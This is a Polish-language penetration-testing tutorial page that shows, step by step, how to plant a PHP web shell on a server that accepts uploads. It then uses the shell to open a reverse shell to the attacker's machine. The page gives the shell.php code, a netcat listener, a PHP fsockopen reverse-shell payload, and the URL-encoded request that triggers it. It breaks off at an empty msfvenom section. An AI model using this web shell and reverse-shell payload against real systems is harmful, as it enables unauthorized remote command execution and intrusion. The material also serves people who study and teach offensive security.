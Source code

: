 ## Przekierowanie portów
Tak, tutaj też można użyć **Nc**, chociaż najlepiej się do tego nadaje **Socat**. Poniżej przykład użycia:
{: .text-justify}
```bash
nc -nlktp 8001 -c "nc 127.0.0.1 8000"
```
# PHP
Załóżmy, że mamy dostęp do jakiegoś serwera, np. o ip **172.16.1.123** gdzie możemy wrzucać pliki z rozszerzeniem _php_ **(http://server/uploads/)**. Naszym celem jest połączyć się stamtąd na naszą maszynę. Można to zrobić w ten sposób:
{: .text-justify}
## shell.php
Należy stworzyć plik _shell.php_:
{: .text-justify}
```php
<?php
echo shell_exec($_REQUEST['cmd']);
?>
```
## Nasłuchiwanie
Włączamy jak zwykle u siebie nasłuchiwanie:
{: .text-justify}
```bash
nc -lvp 1337
```
## Payload
Przygotowujemy **payload**:
{: .text-justify}
```bash
php -r '$sock=fsockopen("172.16.1.89",1337);exec("bash <&3 >&3 2>&3");'
```
Konwertujemy na format _URL_. Można to zrobić na stronie [urlencoder](https://www.urlencoder.org/). Wychodzi coś takiego:
{: .text-justify}
```bash
php%20-r%20%27%24sock%3Dfsockopen%28%22172.16.1.89%22%2C1337%29%3Bexec%28%22bash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```
Doklejamy **payload** do do naszego linku:
{: .text-justify}
```bash
http://172.16.1.123/uploads/shell.php?cmd=php%20-r%20%27%24sock%3Dfsockopen%28%22172.16.1.89%22%2C1337%29%3Bexec%28%22bash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```
Jezeli wszystko przebiegło poprawnie powinniśmy mieć dostęp do **Shella**.
{: .text-justify}
# Inne payloady
Tworzenie **Reverse Shella** można przeprowadzać ręcznie, ale efektywnym podejściem jest skorzystanie z polecenia _msfvenom_, dostępnego w ramach wspomnianego wcześniej **Metasploita**. Poniżej przedstawiam przykład uruchomienia **Reverse Shella** poprzez **Javę**. Aby stworzyć odpowiedni payload, skorzystaj z poniższego polecenia:
{: .text-justify}
## Metasploit
### Tworzenie ładunku
```bash
```